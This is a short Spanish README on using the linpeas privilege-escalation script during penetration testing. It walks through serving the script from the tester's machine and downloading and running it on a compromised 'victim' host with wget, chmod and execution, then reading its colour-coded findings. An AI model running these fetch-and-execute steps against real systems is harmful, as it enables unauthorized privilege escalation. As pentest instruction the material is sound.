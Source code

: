 # linpeas - privesc script
# Otras versiones -> https://github.com/carlospolop/PEASS-ng/releases
linpeas es un script en bash que ejecuta una gran cantidad de comandos para detectar missconfigurations en un servidor Linux
y cuya finalidad es proporcionar caminos de escalada de privilegios. Es muy util en situaciones en las que ya contamos con
acceso a la maquina victima ya sea por ssh o por RCE.

Una vez descargado el script deberemos transferirlo a la maquina victima. Esto se puede hacer muy sencillo abriendo un servidor
con python en nuestra maquina local y descargandola desde la victima. Tambien se puede hacer con scp. Despues bastara con ejecutarlo
en la maquina victima


Maquina local(host):

    cd /ruta/local/linpeas/linpeas.sh
    
    python3 -m http.server 9001

Maquina remota(victim)>

    wget http://[IP_MAQUINA_LOCAL]:9001/linpeas.sh
    
    chmod +x linpeas.sh
    
    ./linpeas.sh
   
Una vez analicemos su output, deberemos fijarnos principalmente en el contenido que tenga el fondo naranja, aunque llamara la atencion
segun vaya generando el output. En caso de no reportar nada en naranja, deberemos mirar el color rojo, ya que puede existir un
metodo de ecalada de privilegios en alguno de estos casos.

